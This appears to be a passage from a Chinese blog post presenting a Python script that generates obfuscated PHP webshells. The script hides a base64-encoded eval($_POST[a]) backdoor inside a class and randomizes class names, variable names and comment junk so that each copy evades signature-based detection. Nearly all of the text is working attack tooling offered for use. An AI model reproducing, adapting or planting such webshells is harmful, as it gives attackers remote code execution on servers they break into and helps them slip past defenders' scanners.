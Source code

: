 ```
?>  

```

到现在为止，模板确认

后面就是写轮子了，至于轮子原理也很简单，就是将可以修改特征的参数名使用随机数填充，比如类名、public变量名、用于混淆的注释字符等。  
代码如下：

```
import random  
  
#author: pureqh  
#github: https://github.com/pureqh/webshell  
  
  
shell = '''<?php  
class {0}{3}  
        public ${1} = null;  
        public ${2} = null;  
        function __construct(){3}  
        $this->{1}='ZXZhbCgkX1BPU1RbYV0pOw==';  
        $this->{2} = @base64_decode( $this->{1} );  
        @eval({5}.$this->{2}.{5});  
        {4}{4}  
new {0}();  
?>'''  
  
  
def random_keys(len):  
    str = '`~-=!@#$%^&_+?<>|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'  
    return ''.join(random.sample(str,len))  
  
def random_name(len):  
    str = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'  
    return ''.join(random.sample(str,len))    
  
def build_webshell():  
    className = random_name(4)  
    parameter1 = random_name(5)  
    parameter2 = random_name(6)  
    lef = '''{'''  
    rig = '''}'''  
    disrupt = "\"/*"+random_keys(7)+"*/\""  
    shellc = shell.format(className,parameter1,parameter2,lef,rig,disrupt)  
    return shellc  
  
  
if __name__ == '__main__':  
    print (build_webshell())  

```
